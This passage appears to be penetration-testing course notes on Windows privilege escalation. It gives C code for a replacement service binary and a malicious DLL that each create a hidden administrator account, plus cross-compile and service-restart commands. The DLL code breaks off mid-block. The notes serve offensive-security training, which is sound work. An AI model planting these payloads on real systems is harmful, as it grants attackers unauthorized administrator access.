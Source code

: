 ```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Next, we'll cross-compile the code on our Kali machine with _mingw-64. Since we know that the target machine is 64-bit, we'll cross-compile the C code to a 64-bit application with **x86_64-w64-mingw32-gcc**. In addition, we use **adduser.exe** as argument for **-o** to specify the name of the compiled executable.

```bash
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

In order to execute the binary through the service, we need to restart it. We can use the **net stop** command to stop the service (If we don't have permissions we can reboot the server if possible)
(`Restart-Service BetaService` can be another command to restart the service)

```shell
PS C:\Users\dave> net stop mysql
```

We can try to restart the service with the following commands too:

```shell
PS C:\Users\dave> Stop-Service BackupMonitor
PS C:\Users\dave> Start-Service BackupMonitor
```

#### Service DLL Hijacking

**[OSCP Notes](https://notchxor.github.io/oscp-notes/4-win-privesc/6-dll-hijacking/)**
**[Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)**

Content in module 16.2.2

Move the binary to a Windows machine where you have admin access and open the binary with ProcessMonitor to check the dlls which are being loaded. Check **[dll search order](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#dll-search-order)** to find a folder to locate the malicious dll file.

Now we can build a malicious dll with the following code: (Save it as .cpp file)

```c
#include <stdlib.h>
#include <windows.h>
 
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
            i = system ("net user rogue password123! /add");
            i = system ("net localgroup administrators rogue /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
```